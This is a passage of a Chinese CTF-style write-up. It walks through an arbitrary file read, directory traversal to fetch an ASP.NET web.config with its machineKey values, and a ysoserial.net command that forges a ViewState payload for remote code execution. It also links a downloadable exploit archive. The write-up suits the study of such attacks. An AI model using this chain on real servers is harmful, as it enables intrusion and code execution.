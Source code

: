 3. 点一下按钮，输出了一张图片。查看一下文件路径，判断有任意文件读取。

![图片21](https://uploader.shimo.im/f/kVpNcdrO5s0n1IYN.png!thumbnail)

4. 根据 uri 的 .aspx 后缀，目标读取 web.config 文件，构造目录穿越尝试读取文件成功。

![图片22](https://uploader.shimo.im/f/cHRy0mzZOJkMF817.png!thumbnail)


查看 web.config 的内容，其中 machineKey 中的值均为固定值，根据上面那篇文章所述，这些值用来加密反序列化之后的 VIEWSTATE 等值。

```
<?xml version="1.0" encoding="UTF-8"?>

<configuration>

<system.web>

<machineKey validationKey="47A7D23AF52BEF07FB9EE7BD395CD9E19937682ECB288913CE758DE5035CF40DC4DB2B08479BF630CFEAF0BDFEE7242FC54D89745F7AF77790A4B5855A08EAC9" decryptionKey="B0E528C949E59127E7469C9AF0764506BAFD2AB8150A75A5" validation="SHA1" decryption="3DES" />

</system.web>

</configuration>
```

5. 有了 VIEWSTATE 的加密密钥，我们就可以根据文章中的方法构造一个带回显的 VIEWSTATE Payload，来让服务器反序列化然后 RCE。

![图片23](https://uploader.shimo.im/f/viOA5gyceFctzKiK.png!thumbnail)

[https://github.com/pwntester/ysoserial.net](https://github.com/pwntester/ysoserial.net)

[1584803371549254c06b2ddaa1222dcea21d5c31f2](https://www.zhaoj.in/wp-content/uploads/2020/03/1584803371549254c06b2ddaa1222dcea21d5c31f2.zip)  [下载](https://www.zhaoj.in/wp-content/uploads/2020/03/1584803371549254c06b2ddaa1222dcea21d5c31f2.zip)

![图片24](https://uploader.shimo.im/f/VxbMIUZ46Jo9gBma.png!thumbnail)

```
PS C:\Users\Administrator\Downloads\exp> C:\Users\Administrator\Downloads\ysoserial-1.32\Release\ysoserial.exe -p ViewState -g ActivitySurrogateSelectorFromFile -c "ExploitClass.cs;./System.dll;./System.Web.dll" --generator="CA0B0334" --validationalg="SHA1" --validationkey="47A7D23AF52BEF07FB9EE7BD395CD9E19937682ECB288913CE758DE5035CF40DC4DB2B08479BF630CFEAF0BDFEE7242FC54D89745F7AF77790A4B5855A08EAC9"
```

6. 然后将得到的 Payload 放入 POST 的请求的 VIEWSTATE，再将命令写入 cmd，发送即可 RCE。

![图片25](https://uploader.shimo.im/f/RKGmGokWPpgXLxsC.png!thumbnail)

![图片26](https://uploader.shimo.im/f/mSOxzE4XsI4fH1Ek.png!thumbnail)

![图片27](https://uploader.shimo.im/f/D1fyeJ6MtzIQn6OH.png!thumbnail)
